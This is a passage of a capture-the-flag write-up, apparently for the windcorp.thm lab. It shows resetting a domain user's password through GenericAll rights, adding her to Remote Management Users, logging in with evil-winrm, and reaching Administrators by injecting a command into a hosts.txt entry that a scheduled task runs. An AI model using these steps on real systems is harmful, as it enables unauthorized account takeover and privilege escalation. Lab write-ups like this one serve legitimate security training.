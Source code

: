 ![brittany path](./pic/path.png)
	
We have generic all over brittanycr user so that means we can change her password and add her to Remote Management Users:
```cmd
net user brittanycr Password1234.
net localgroup 'Remote Management Users' brittanycr /add
```
Now we can log in with brittanycr user with evil-winrm:
```bash
evil-winrm -i windcorp.thm -u brittanycr -p Password1234.
```

# Administrator


We are now in and we can see the content of hosts.txt and also modify it:
```cmd
type hosts.txt
```
output:
```
google.com
cisco.com


```
I changed the hosts file with this:
```cmd
google.com; net localgroup 'Administrators' buse /add
```
Now after one minute we can login again with buse user and we are in Admin group!!
	